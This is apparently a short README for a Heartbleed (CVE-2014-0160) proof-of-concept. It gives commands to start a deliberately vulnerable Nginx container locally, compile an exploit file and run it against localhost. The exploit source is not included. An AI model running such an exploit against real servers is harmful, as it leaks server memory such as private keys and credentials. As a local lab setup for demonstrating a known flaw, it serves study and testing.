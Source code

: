 # heartbleed
CVE-2014-0160 OpenSSL Heartbleed Proof of Concept

Download and execute the Docker container (Vulnerable Nginx server)
```
docker run -p 4443:443 -it --rm --name hb gescobero/heartbleed:1.0
```
Compile Heartbleed attack
```
gcc heartbleed.c -o heartbleed
```
Execute it with Nginx server as target
```
./heartbleed 127.0.0.1 4443
```
